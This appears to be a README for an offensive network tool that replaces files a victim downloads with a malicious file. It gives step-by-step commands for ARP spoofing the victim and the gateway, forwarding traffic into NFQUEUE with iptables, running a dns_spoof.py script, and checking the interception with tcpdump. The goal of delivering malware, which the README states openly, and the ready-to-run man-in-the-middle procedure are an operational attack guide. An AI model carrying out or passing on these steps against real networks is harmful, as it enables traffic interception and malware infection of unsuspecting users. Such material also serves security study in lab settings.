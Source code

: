 ### Replace downloads  
is a program to replace the download file which target user downloads.  
We can modify what user downloading and we can replace it with file which we want user should downloads, a malicious file.
Modifying every requests manually after intercepting each request will be time consuming, to solve this, we automate it.  
  
### usage - sudo python2 dns_spoof.py
<pre>
Steps:  
    0. Update script with required changes - updating host and file to file.  
    1. Forward all packets to our computer  
        1. echo 1 > /proc/sys/net/ipv4/ip_forward  
    2. ARP Spoof  
	1. arpspoof -i eth0 -t 10.0.2.15 10.0.2.1  
	2. arpspoof -i eth0 -t 10.0.2.1 10.0.2.15  
    3. Forward all dns - block all real packets  
    	To test in local system or same system  
	  1. sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0  
          2. sudo iptables -I INPUT -j NFQUEUE --queue-num 0  
            or we can route for specific port
          1. sudo iptables -I OUTPUT -p tcp --sport 80 -j NFQUEUE --queue-num 0  
	  2. sudo iptables -I INPUT -p tcp --dport 80 -j NFQUEUE --queue-num 0  
       To test in other system, target system  
          1. sudo iptables -I FORWARD -j NFQUEUE --queue-num 0     
    4. sudo python2 dns_spoof.py
    5. To check if its working  
        1. tcpdump -i eth0 udp port 53  
        2. sudo iptables -L -v -n  
        3. sudo tcpdump -i any port 80 -A | grep ".jpg"  
        4. sudo tcpdump -i any -A port 80 | grep -Ei "\.jpg|\.exe|\.pdf"  
    6. After completing - flush the rules  
        1. iptables --flush  
        2. iptables -t nat -F  
</pre> 
  
Run the steps following them and we can spoof and replace the file in target system.  
  
Requirements - install required libraries. For help, refer tools section
